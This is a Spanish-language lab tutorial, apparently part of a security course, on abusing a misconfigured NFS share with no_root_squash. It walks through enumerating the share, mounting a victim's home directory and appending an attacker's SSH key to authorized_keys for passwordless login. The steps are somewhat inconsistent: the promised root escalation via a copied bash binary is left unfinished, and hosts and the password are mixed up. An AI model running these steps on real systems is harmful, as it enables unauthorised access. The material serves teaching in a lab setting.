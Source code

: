 # Escalado de privilegio explotando ***no_root_squash***.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***ubu_srv_01***

***REQUIERE HABER REALIZADO 4. Laboratorio 04-D: ***Enumeración NFS***. Ejercicio - Configuración de un share de NFS.


## Convertirse en root por una NFS mal configurada.
Como debemos tener claro, un uso de NFS no seguro puede conducir a situaciones no deseadas. Después de aprender a enumerar las shares NFS (tal y como se vió en el ***lab-04-D***) se determina que existe una share que tiene habilitada la configuración ***no_root_squash***. Este parámetro permite al usuario ***root*** de la máquina cliente acceder al share. Como ya sabemos, trabajar con un usuario ***root*** es una mala idea.

En la máquina ***Kali*** ejecutamos el siguiente comando.
```
nmap -sV -p 111 --script=nfs-showmount 192.168.20.60
```

Cuya salida demuestra que se está compartiendo el directorio ***/datos*** en dicha máquina. 

Esta tecnica se emplea cuando se necesita escalar privilegios, es decir, el actor de la amenaza ya posee una credencial de usuario en la máquina víctima. La credencial puede haber sido capturada en un ataque previo o, se trata de un ***insider***. En cualquier caso se desea ser ***root*** en la máquina NFS.

Para hacer una simulación real, vamos a crear un usuario nuevo, sin permisos de ***root***, en la máquina ***ubu_srv_01***, por medio del siguiente comando.
```
sudo useradd luke
``` 

Y por contraseña ponemos ***UsaLaLFuerza***, por medio de este comando.
```
sudo passwd luke
```

Iniciamos sesión con el nuevo usuario. Primero cerramos la sesión del usuario ***antonio***.
```
logout
```

E iniciamos sesión con ***luke***/***UsaLaFuerza***. Compromamos quien somos.
```
whoami
```

La salida mostrará que es un usuario convencional (***luke***) que no es ***root*** en esa máquina.

Ahora, el usuario ***luke*** va a hacer algo que parece inocuo. Copia el archivo de la shell a la carpeta ***/datos***, para la cual tiene permisos de escritura.
```
cp /bin/bash /datos
```

Si listamos la carpeta veremos que el propietario es ***luke***
````
ls -l /datos
```

![propietaio de bash](../img/lab-04-D/202209101503.png)




El siguiente paso es intentar montar ese share.

Creamos una carpeta de trabajo temporal.
```
mkdir /tmp/directorio-home-de-la-victima
```

Montamos el share.
```
sudo mount -t nfs 192.168.20.13:/home/vagrant /tmp/directorio-home-de-la-victima
```

Comprobamos que se ha montado el share.
```
df -k
```

El resultado debe ser similar al mostrado en la siguiente imagen.

![NFS Share mounted](../img/lab-30-D/202209101822.png)

El punto de montaje se corresponde con el directorio raíz del usuario. Vamos a listarlo porque pretendemos encontrar un directorio muy "interesante" como muestra la imagen.
Nota: Mostramos archivos y carpetas ocultos.

```
ls -l -a /tmp/directorio-home-de-la-victima
```

![listado del home](../img/lab-30-D/202209101827.png)

El directorio oculto ***ssh*** almacena las claves ***públicas***, ***privadas*** y ***autorizadas*** para poder hacer un ***login ssh*** que no requiere contraseña.

Podemos ver los archivos que contiene de la siguiente forma.
```
sudo ls -a -l /tmp/directorio-home-de-la-victima/.ssh
```

La técnica que se usa es la de crear en la máquina de ataque una pareja de claves público/privada. A continuación (por tener permiso ***rw*** en el share) agregaremos la ***clave pública*** al archivo ***authorized_keys*** de la víctima.

Creamos la pareja de claves. En la máquina ***kali*** ejecutamos el comando.
Nota: Pulsamos ***ENTER*** por cada pregunta que nos formule.
```
ssh-keygen
```

El archivo que contiene la clave pública es.
```
ls ~/.ssh/id_rsa.pub
```

Y su contenido es.
```
cat ~/.ssh/id_rsa.pub
```

Ahora simplemente tenemos que añadir la ***clave pública*** al archivo ***authorized_keys*** de la víctima.
```
sudo sh -c "cat /home/antonio/.ssh/id_rsa.pub >>  /tmp/directorio-home-de-la-victima/.ssh/authorized_keys"
```

Podemos comprobar como se ha añadido la clave pública al final del archivo de claves autorizadas.
```
sudo cat /tmp/directorio-home-de-la-victima/.ssh/authorized_keys
```

Lo único que queda por hacer es comprobar que se puede acceder al equipo de la víctima por ***ssh***.
Nota: ***~/.ssh/id_rsa*** es el archivo que contiene la ***clave privada*** que hemos creado antes.
```
ssh -i ~/.ssh/id_rsa antonio@192.168.20.13
```

En la imagen podemos ver como se conecta a través de ***ssh***. Respondemos ***yes*** para realizar la conexión.

![ssh a la victima](../img/lab-30-D/202209101846.png)





